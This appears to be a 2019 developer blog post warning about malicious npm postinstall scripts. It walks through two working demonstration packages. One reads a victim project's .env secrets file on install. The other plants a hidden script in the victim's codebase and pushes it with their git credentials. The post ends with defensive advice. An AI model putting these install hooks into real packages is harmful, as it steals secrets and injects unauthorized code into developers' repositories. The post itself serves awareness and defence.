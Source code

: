 ```yaml
---
layout: post
title:  "NPM and Evil Scripts"
image: 
date:   2019-06-10 01:04:13 +0300
tags:
  - NPM
  - Javascript
---
```


If you are writing javascript, then you probably used NPM. And you probably heard the cries of many javascript developers of how people are overusing NPM packages as dependencies without worrying. If you are one of these people who are not worried, you definitely should be. In this post, I will try to show you one of the reasons why you should be worried.

## Incidents of the Past

Have you heard about the [eslint-scope hijack](https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes)? or perhaps the [event-stream incident](https://github.com/dominictarr/event-stream/issues/116)? or just last June when the NPM security team ["foiled a plot to steal cryptocurrency"](https://blog.npmjs.org/post/185397814280/plot-to-steal-cryptocurrency-foiled-by-the-npm)?

Stolen credentials of one developer, a new maintainer, and a malicious package publisher. All lead to different types of security incidents.

New packages are being published to NPM every day. Many of them are useful, some are not so much, and some are malicious. From phishing attempts to make you install the wrong package, to packages that try to steal or manipulate your system files.

## NPM Scripts

Have you ever used `npm start` or `npm test` or even `npm install`? If so then you are already using NPM scripts. There are few scripts defined by NPM: start, test, and install are few examples. You can read the full list of all predefined scripts in the [NPM documentations](https://docs.npmjs.com/misc/scripts). Additionally, you can define your own scripts and run them with `npm run mycommand`.

## The Dangers of NPM Scripts

Reading NPM documentation about the `postinstall` script:
> Run AFTER the package is installed

This could be useful in many instances, and also dangerous in other situations.

Let's take few examples of how the `postinstall` script can be used by malicious developers to attack you, the poor developer.

## Post Install of Doom Example #1

Let's try something simple. In many node applications, there is a file called `.env`. This file is most likely not committed to source control. It may hold few critical information about your environment. Let's steal it, shall we?!! I will first create a normal npm package, that literally does nothing.
1. First create the package directory:

    ```console
    $ mkdir blog-npm-scripts && cd blog-npm-scripts
    ```
2. Create a `postinstall.js` file and let's try to read the `.env` file:

    ```javascript
    const Path = require('path');
    const fs = require('fs');

    // example: steal stuff from your code-base: an environment file for example
    const workingDirectory = process.cwd();

    const envFilePath = Path.join(workingDirectory, '../..', '.env');

    fs.readFile(envFilePath, 'utf8', (err, data) => {
        if (err) {}

        // I can do whatever
        // for example: I can send these to a remote server!
        console.log(data);
    });
    ```
    Your package is installed under `node_module/blog-npm-scripts`. The code above tries to break out of the `node_modules` directory into the root of the victim's codebase.
3. Add postinstall script in `package.json`:

    ```json
    {
      "name": "blog-npm-scripts",
      "version": "1.0.0",
      "description": "",
      "main": "index.js",
      "scripts": {
        "postinstall": "node ./postinstall.js"
      },
      "author": "",
      "license": "MIT"
    }
    ```
4. An unsuspecting developers installs your package:

    ![example #1 result](/assets/images/npm-evil-scripts-result-1.png)

And done!! We stole this poor developer's environment files.

## Post Install of Doom Example #2

Let's try something slightly more extreme. Let's target those who are using some kind of credential helpers. These users will be most likely auto logged in when executing git commands. Let's try to leverage that to our advantage and inject some code into their codebase.

This time, we will use a shell script.

1. Create a `postinstall.sh` file:

    ```console
      # break outside node_modules
      cd ../..

      # create sneaky javascript file
      touch .sneaky.js

      echo 'module.exports = () => console.log("You cannot even see me")' >> .sneaky.js

      echo 'require("./.sneaky.js")()' >> index.js

      LAST_MESSAGE="$(git log -1 --pretty=%B)"

      git add .

      git commit -m "$LAST_MESSAGE"

      git push origin master
    ```
    The script above creates a file called `.sneaky.js` in the codebase root directory then attempts to push that code to source control using the last commit message.
2. Replace the `postinstall` script in `package.json`:

    ```json
      {
        "scripts": {
          "postinstall": "sh ./postinstall.sh"
        }
      }
    ```
3. An unsuspecting developers installs your package:
    ![example #2 result](/assets/images/npm-evil-scripts-result-2.png)
    As you can see the code was pushed to Github.

## Possibilities are Endless

These are just two simple examples. There are more complex and infinite ways malicious publishers can exploit these scripts. They can trick you into executing sudo commands using `"postinstall": "sudo whatever"`, modify or corrupt your system files, steal valuable information, or install malicious software.

## What can I do?

Few words of advice:
1. Don't install packages for everything.
2. If you install something, do a background check:
    - Ensure the package has a repository link.
    - Ensure the package is actively being maintained.
    - Ensure there is a way of reporting issues and bugs.
    - NPM audits: run `npm audit` to find what are the vulnerable packages.
3. Run npm install with the `--ignore-scripts` flag.
4. If you find a malicious package, report it immediately.

NPM is great but just like other great things, it can be used to do harm. Don't trust everything on NPM blindly.